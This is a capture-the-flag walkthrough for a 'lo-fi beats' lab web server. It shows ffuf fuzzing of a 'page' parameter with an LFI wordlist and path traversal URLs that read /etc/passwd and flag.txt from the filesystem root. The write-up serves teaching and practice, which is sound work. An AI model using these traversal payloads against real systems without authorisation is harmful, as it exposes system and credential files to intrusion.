




## Scenario

> Want to hear some lo-fi beats, to relax or study to? We've got you covered!
> 
> Navigate to the following URL using the AttackBox: http://10.113.180.162 and find the flag in the root of the filesystem.
> 
> Note: The web page does load some elements from external sources. However, they do not interfere with the completion of the room.

Access via: `http://10.113.180.162`

## Walkthrough

### Initial Recon

I started by viewing the page source, which turned up nothing of interest, and checked for a `robots.txt`, which didn't exist either. From there I clicked through the site's navigation.



I also ran Wappalyzer against the page to see what it was built on. It flagged YouTube as the embedded video player, Ubuntu as the host OS, and Apache HTTP Server 2.2.22 as the web server.


Clicking through the discography sidebar changed which video played, and each click carried a `page` parameter in the URL. Clicking Sleep, for example, went to:

```
http://10.113.180.162/?page=sleep.php
```



A parameter that selects which `.php` file to load is a classic LFI candidate, so that's what I tested next.

### Fuzzing for LFI

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ffuf -u http://10.113.180.162/?page=FUZZ -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -ic -c -fs 3800-4000

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.3.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.113.180.162/?page=FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 3800-4000
________________________________________________

—SNIP—
../../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 35ms]
../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 35ms]
../../../etc/passwd     [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 35ms]
../../../../etc/passwd  [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 37ms]
..\..\..\..\..\..\..\..\..\..\etc\passwd [Status: 200, Size: 4006, Words: 1367, Lines: 124, Duration: 36ms]
.\\./.\\./.\\./.\\./.\\./.\\./etc/passwd [Status: 200, Size: 4006, Words: 1367, Lines: 124, Duration: 36ms]
\..\..\..\..\..\..\..\..\..\..\etc\passwd [Status: 200, Size: 4007, Words: 1367, Lines: 124, Duration: 34ms]
../../../../../../../../../../../../../../../../../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 35ms]
../../../../../../../../../../../../../../../../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 35ms]
../../../../../../../../../../../../../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 35ms]
../../../../../../../../../../../../../../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 35ms]
../../../../../../../../../../../../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 36ms]
—SNIP—
:: Progress: [930/930] :: Job [1/1] :: 107 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```

**Breakdown:**

- `-u http://10.113.180.162/?page=FUZZ` sets the target URL, with `FUZZ` marking the spot — inside the `page` parameter — where each wordlist entry gets substituted in
- `-w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ` points ffuf at the LFI-Jhaddix wordlist, which is built specifically for testing local file inclusion and path traversal, and ties its entries to the `FUZZ` keyword
- `-ic` ignores comment lines in the wordlist (lines starting with `#`), so they aren't sent as payloads
- `-c` colourises the terminal output for readability
- `-fs 3800-4000` filters out any response whose size falls between 3800 and 4000 bytes

A large number of traversal depths and encodings came back as hits, which on its own showed there was no filtering at all on the parameter. The simplest payload that worked was `../../../etc/passwd`, which also pinned down that the web root sits three directories below the filesystem root.

### Confirming the Traversal

I tried the simplest payload directly in the browser:

```
http://10.113.180.162/?page=../../../etc/passwd
```



This confirmed the traversal worked outside of ffuf's noise too, and with three directories putting me at the filesystem root, reaching anything else there was just a matter of swapping the filename.

### Retrieving the Flag

Since the scenario stated the flag sits in the root of the filesystem, I pointed the same traversal at `flag.txt` instead:

```
http://10.113.180.162/?page=../../../flag.txt
```



**Answer:** `—REDACTED—`